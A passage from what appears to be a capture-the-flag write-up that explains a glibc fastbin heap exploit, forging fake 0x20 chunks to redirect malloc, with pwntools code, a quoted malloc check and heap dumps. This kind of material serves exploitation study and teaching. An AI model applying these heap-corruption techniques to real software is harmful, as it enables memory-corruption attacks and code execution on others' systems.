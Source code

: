 Practically, we tricked malloc into thinking that there are two more chunks(`x` and `y`) of size `0x20` ready to be served back to the user.
Now it's the time to look back at the `fake_chunk` I told you to forget about. 

```python
# Craft fake FD pointer
fake_chunk  = p64(0x20)*6
fake_chunk += p64(heap + 0x200)
fake_chunk += p64(0x20) * 9
fake_chunk += p64(0)
alloc(0x88, fake_chunk)
```

There is a slight spam of `p64(0x20)`. Well, we can't just overwrite the forward pointer of `0x555555757200` with a random address. 
We need to make sure the chunk is looking legit. Meaning, if the chunk's size doesn't match with the rest of the fastbin list's
size (`0x20` in our case), `_int_malloc` won't be happy.

```c
...
/* Check if the new chunk's size does belong to the fastbin list's size */
size_t victim_idx = fastbin_index (chunksize (victim));
if (__builtin_expect (victim_idx != idx, 0))
		malloc_printerr ("malloc(): memory corruption (fast)");
...
```

Both `0x5555557571b0` and `0x555555757200` are of size `0x20` so we're good to go. Why fake two chunks and not just one you may ask. 
That's because the first allocation is by default of size `0x20` and is used to fill in the new memo's fields. We don't have
much control over that one. However, we do have control over the allocated area with the second allocation which is for the 
`name` pointer. Next allocation, as long as between `0x0` and `0x18`, it will return `0x555555757020` and `0x555555757000`.

```python
alloc(0x18, 'lel')
```

```
(0x20)     fastbin[0]: 0x5555557571b0 --> 0x555555757200 --> 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x0
(0x80)     fastbin[6]: 0x0

0x5555557571b0:	0x0000000000000020	0x0000000000000020 <-- fake free x
0x5555557571c0:	0x0000555555757200	0x0000000000000020
0x5555557571d0:	0x0000000000000020	0x0000000000000020
0x5555557571e0:	0x0000000000000020	0x0000000000000020
0x5555557571f0:	0x0000000000000020	0x0000000000000020
0x555555757200:	0x0000000000000020	0x0000000000000020 <-- fake free y
0x555555757210:	0x0000000000000000	0x0000000000000021 <-- memo_4
0x555555757220:	0x0000555555757240	0x0000000100000068
```
